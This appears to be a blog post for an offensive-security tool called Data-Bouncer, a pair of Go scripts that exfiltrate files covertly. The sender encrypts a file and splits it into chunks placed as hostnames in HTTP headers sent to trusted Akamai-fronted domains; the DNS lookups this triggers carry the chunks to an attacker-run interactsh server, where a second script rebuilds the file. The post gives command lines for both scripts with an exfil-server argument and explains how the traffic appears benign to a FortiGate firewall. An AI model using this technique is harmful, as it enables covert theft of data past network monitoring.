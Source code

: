 ```yaml
---
title: Data-Bouncer
description: Leverage trusted domains and HTTP headers to stealthily transmit data. 
author: BW
date: 2024-05-19 20:00:00 - 0500
categories: [CyberSecurity, Offensive Security]
tags: [offsec]     # TAG names should always be lowercase
image:
  path: /assets/img/preview/data-bouncer.jpg
  lqip: /assets/img/preview/data-bouncer.jpg
---
```


I came across this Proof of Concept outlined here in <https://thecontractor.io/data-bouncing>.
I took their ideas and wrote two Go scripts designed for educational purposes. Please don't do anything illegal.

One script, bounce.go, encrypts and exfiltrates data via DNS by breaking it into chunks and sending it through HTTP headers. The second script, regenerate.go, reassembles and decrypts the data from the exfiltrated chunks. This method leverages trusted domains and HTTP headers to stealthily transmit data.

You will need an OOB dns server under your control for this to work and to collect the data. Here I'm using <https://github.com/projectdiscovery/interactsh>.

From my testing this should work on most websites/domains that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt. It first encrypts your chosen file using a password you provide, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```shell
go run bounce.go -f <filename> -p <password> -u <UUID> -e <exfil server url> -v
```
or
```shell
.\bounce.exe -f <filename> -p <password> -u <UUID> -e <exfil server url> -v
```

### Regenerate.go
This script reads the JSON export from your interactsh exfil server, processes and reassembles the chunks, doing the reverse by decoding, decrypting, and finally outputting the file.

Example:
```shell
go run regenerate.go -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```
or
```shell
.\regenerate.exe -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```

### Images

Example of bouncing a file:

![bouncer](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/87499151-3fef-4acc-b1d8-f67591ae21b9)

Example of regenerating the file:

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client:

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

Example of the forward traffic from FortiGate:

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)

- As you can see, it looks like the traffic is going to 23.x.x.x, a highly trusted domain.
- However, when the HTTP request is made, the webserver looks at our modified HTTP headers and performs a dns lookup of our exfil server from those headers.
- Then we're able to collect each of those dns lookups to our exfil server and reconstruct the data from these headers.
- This only works because many webservers processes hostnames in the headers, and we can relay small chunks of data in those very same headers between endpoints.
- Therefore, this makes it an extremely stealthy way of exfiltrating data albeit a slow one.
